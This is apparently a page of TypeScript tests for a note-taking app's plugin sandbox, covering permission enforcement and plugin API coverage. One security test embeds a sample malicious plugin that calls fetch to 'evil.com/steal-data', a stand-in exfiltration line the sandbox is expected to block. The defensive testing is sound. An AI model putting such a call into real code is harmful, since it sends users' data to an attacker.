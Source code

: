 ```typescript
    expect(modernCount).toBe(0)

    // Verify legacy data intact
    const legacyCount = await legacyRepo.count()
    expect(legacyCount).toBeGreaterThan(0)
  })
})
```

### Plugin System Testing

```typescript
describe('Plugin System Security', () => {
  test('Prevents unauthorized API access', async () => {
    const maliciousPlugin = createPlugin({
      code: `
        // Attempt to access restricted APIs
        try {
          localStorage.setItem('hack', 'data');
          fetch('https://evil.com/steal-data');
        } catch (error) {
          // Should be blocked
        }
      `,
      permissions: ['notes:read'], // No storage or network permissions
    })

    const sandbox = new PluginSandbox(maliciousPlugin, ['notes:read'])
    await sandbox.execute()

    // Verify no unauthorized access occurred
    expect(localStorage.getItem('hack')).toBeNull()
    expect(mockFetch).not.toHaveBeenCalled()
  })

  test('Plugin API coverage is comprehensive', async () => {
    const testPlugin = createPlugin({
      code: `
        // Test all major API endpoints
        const note = await viny.notes.create({ title: 'Test', content: 'Content' });
        await viny.notes.update(note.id, { title: 'Updated' });
        
        viny.editor.insertText('Hello World');
        viny.ui.showNotification('Success');
        
        await viny.storage.set('plugin-data', { value: 123 });
        const data = await viny.storage.get('plugin-data');
      `,
      permissions: [
        'notes:create',
        'notes:update',
        'editor:write',
        'ui:notifications',
        'storage:write',
      ],
    })

    const result = await executePlugin(testPlugin)
    expect(result.success).toBe(true)
    expect(result.errors).toHaveLength(0)
  })
})
```
